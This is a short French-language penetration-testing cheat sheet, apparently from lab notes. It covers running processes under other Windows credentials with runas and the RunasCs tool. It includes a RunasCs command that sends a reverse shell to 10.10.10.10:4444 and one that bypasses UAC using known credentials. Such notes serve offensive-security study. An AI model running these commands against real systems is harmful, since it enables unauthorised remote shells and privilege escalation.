 
## RunAs

Natif
Necessite un shell interactif pour entrer le mot de passe.

```cmd
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

## RunasCs

https://github.com/antonioCoco/RunasCs

Permet d'utiliser les creds de manière explicite en cas de shell non interactif.

```
RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
```

Permet également de bypasser l'UAC si les creds sont connus.

```
RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
```